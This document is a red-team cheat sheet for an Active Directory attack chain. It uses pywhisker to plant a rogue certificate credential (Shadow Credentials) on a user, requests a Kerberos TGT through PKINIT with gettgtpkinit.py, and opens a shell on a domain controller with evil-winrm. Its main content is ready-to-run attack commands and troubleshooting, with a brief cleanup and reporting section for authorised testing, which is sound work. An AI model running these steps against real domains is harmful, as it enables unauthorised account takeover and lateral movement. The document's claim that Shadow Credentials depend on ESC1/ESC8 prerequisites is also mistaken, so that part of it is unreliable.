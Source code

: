 ```yaml
---
title: "Shadow Credentials → PKINIT TGT → User Shell"
tags: [active-directory, shadow-creds, pywhisker, pkinit, kerberos, evil-winrm]
author: "RedMind"
date: 2025-10-01
---
```


# Shadow Credentials → PKINIT TGT → User Shell 

**TL;DR**  
Abuse **Shadow Credentials** using `pywhisker` to register a rogue certificate for a user account. With that certificate, use **PKINIT** to request a Kerberos **TGT**. Load the ticket (ccache) and authenticate via **Evil‑WinRM** or other Kerberos-aware tooling to obtain a shell.

---

## Goal
- Add malicious **certificate-based credentials** (Shadow Creds) to a target AD user via `pywhisker`.
- Use the resulting PFX to request a Kerberos TGT via `gettgtpkinit.py`.
- Load TGT and confirm with `klist`.
- Leverage Kerberos auth (`-r` realm flag or environment ticket) in `evil-winrm` for shell.

## Prerequisites
- `pywhisker` cloned and working environment (`pip install -r requirements.txt`).
- `PKINITtools` and `oscrypto` fix configured.
- Attacker host has `/etc/krb5.conf` pointing to correct realm and DC.
- Domain user target is **shadow-credential vulnerable** (ESC1 / ESC8 scenario).  
- Time sync maintained for Kerberos.

---

## High-Level Flow
1) `pywhisker add` → register malicious certificate for target user.  
2) Export `.pfx` certificate.  
3) Use `gettgtpkinit.py` to request TGT.  
4) Export ccache, set `KRB5CCNAME`.  
5) Confirm with `klist`.  
6) Use `evil-winrm -r` or Kerberos auth option to get shell.

---

## Commands

### 1) Add Shadow Credential
```bash
# Example syntax, adjust for victim user & domain
python3 pywhisker.py add \
  -d domain.local \
  -u alice \
  -p 'Password1!' \
  --target "alice@domain.local" \
  --pfx alice.pfx \
  --pass alicePFXpass
```
> This registers a new key credential link for the user. Confirm the PFX saved correctly.

### 2) Request TGT via PKINIT
```bash
# Base64 method or direct PFX usage
python3 gettgtpkinit.py domain.local/alice@DOMAIN.LOCAL \
  -cert-pfx alice.pfx \
  -pfx-pass alicePFXpass \
  -dc-ip DC_IP \
  alice.ccache
```

### 3) Export & Verify Ticket
```bash
export KRB5CCNAME=$(pwd)/alice.ccache
klist
```
> `klist` should show a valid TGT for `alice@DOMAIN.LOCAL`.

### 4) Kerberos Shell (Evil‑WinRM)
```bash
evil-winrm -i dc01.domain.local -r domain.local
# or with -s netexec (if using netexec/nxc) with -k for Kerberos
```

---

## Troubleshooting
- If `pywhisker add` fails, check ACLs and that Shadow Creds is not blocked (ESC1/ESC8 prerequisites).  
- If PKINIT errors, verify CA trust, correct user principal, time sync.  
- Ensure `/etc/hosts` maps `dc01.domain.local` to correct IP.  
- Confirm `KRB5CCNAME` is exported before running `evil-winrm`.

## What This Demonstrates
- Modern AD trust abuse via Shadow Credentials.  
- Certificate-based authentication for Kerberos (PKINIT) without password.  
- Lateral move to interactive shell using TGT only (no NTLM needed).

## Cleanup & Safety
- Remove rogue credential from the user post-testing (`pywhisker remove`).  
- Delete `.pfx` and `.ccache` from attacker host.  
- Report misconfiguration: enforce strong ACLs around KeyCredentialLink / Certificate Templates.

---

## Tools (reference)
- `pywhisker` — Shadow Credentials manipulation.  
- `gettgtpkinit.py` (PKINITtools) — TGT from PFX.  
- `evil-winrm` — Kerberos shell (with `-r` realm flag).  
- Optional: `netexec` with `-k` for Kerberos.

